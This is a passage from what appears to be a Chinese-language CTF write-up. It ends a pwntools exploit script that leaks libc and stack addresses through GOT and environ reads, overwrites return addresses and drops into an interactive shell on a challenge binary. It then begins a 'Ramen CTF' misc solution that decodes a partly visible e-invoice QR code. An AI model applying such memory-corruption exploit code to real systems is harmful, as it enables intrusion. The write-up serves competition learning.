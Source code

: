 ```python
        r.sendlineafter(b"MyGO @ sched title > ", payload)

        r.sendlineafter(b"$ > ", b"3")
        payload = p64(data)
        r.sendlineafter(b"MyGO @ sched content >", payload)
    except EOFError:
        pass


puts_got = exe.got['puts']
puts_real = read1(puts_got)
log.success(f"puts_real = {hex(puts_real)}")

libc.address = puts_real - libc.symbols['puts']
log.success(f"libc.address = {hex(libc.address)}")

environ_addr = libc.symbols['environ']
log.success(f'environ addr: {hex(environ_addr)}')

stack_leak = read2(environ_addr)
log.success(f'Stack leak: {hex(stack_leak)}')

offset = 0x120
write1(stack_leak - offset, 0x40101a)
write1(stack_leak - offset + 0x8, 0x4013ec)

r.sendlineafter(b"$ > ", b"5")
r.interactive()
```


# misc

## Ramen CTF

這題最明顯的問題出在旁邊露出一半的發票  
經過[這份財政部文件](https://www.einvoice.nat.gov.tw/static/ptl/ein_upload/attachments/1479449792874_0.6(20161115).pdf)，可以把掃到的結果分類拆解成這樣  

```
MF16879911
1140413
7095
000001f4
000001f4
00000000
34785923
VG9sG89nFznfPnKYFRlsoA==
:**********
:2
:2
:1
:蝦拉
```
